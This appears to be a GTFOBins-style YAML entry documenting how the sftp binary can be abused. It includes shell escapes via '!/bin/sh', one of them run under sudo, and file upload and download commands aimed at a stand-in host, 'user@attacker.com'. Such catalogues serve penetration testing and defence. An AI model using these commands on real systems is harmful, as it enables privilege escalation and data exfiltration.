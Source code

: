 ```yaml
---
functions:
  execute-interactive:
  - code: |
      HOST=user@attacker.com
      sftp $HOST
      !/bin/sh
  upload:
  - description: Send local file to a SSH server.
    code: |
      RHOST=user@attacker.com
      sftp $RHOST
      put file_to_send file_to_save
  download:
  - description: Fetch a remote file from a SSH server.
    code: |
      RHOST=user@attacker.com
      sftp $RHOST
      get file_to_get file_to_save
  sudo-enabled:
  - code: |
      HOST=user@attacker.com
      sudo sftp $HOST
      !/bin/sh
---
```

